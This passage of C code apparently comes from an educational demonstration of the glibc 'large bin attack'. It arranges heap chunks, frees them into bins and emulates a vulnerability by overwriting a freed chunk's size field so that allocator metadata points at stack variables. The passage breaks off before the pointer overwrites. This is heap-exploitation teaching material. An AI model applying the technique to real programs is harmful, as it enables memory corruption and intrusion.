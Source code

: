 ```c
    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
                    " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
                    " the third large chunk during the free()\n\n");
    malloc(0x20);

    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p2 - 2), (void *)(p2[0]));

    void* p4 = malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
                    " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
                    ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
                    " [ %p ]\n\n",
            (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
                    " [ %p <--> %p ]\n\n",
            (void *)(p3 - 2), (void *)(p3[0]));

    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
                    " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
                    " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
                    " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
```
